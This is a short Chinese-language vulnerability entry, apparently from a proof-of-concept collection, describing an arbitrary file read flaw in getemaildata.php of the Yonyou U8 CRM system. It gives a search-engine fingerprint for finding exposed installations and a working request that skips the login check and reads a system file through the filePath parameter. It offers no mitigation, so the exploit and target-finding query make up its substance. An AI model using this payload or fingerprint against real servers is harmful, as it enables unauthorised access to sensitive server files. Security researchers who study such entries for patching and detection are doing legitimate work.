


# 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件读取漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取到服务器中的敏感文件

## 漏洞影响

用友 U8 CRM客户关系管理系统

## 网络测绘

```
web.body="用友U8CRM"
```

## 漏洞复现

登陆页面



验证POC

```
/ajax/getemaildata.php?DontCheckLogin=1&filePath=c:/windows/win.ini
```

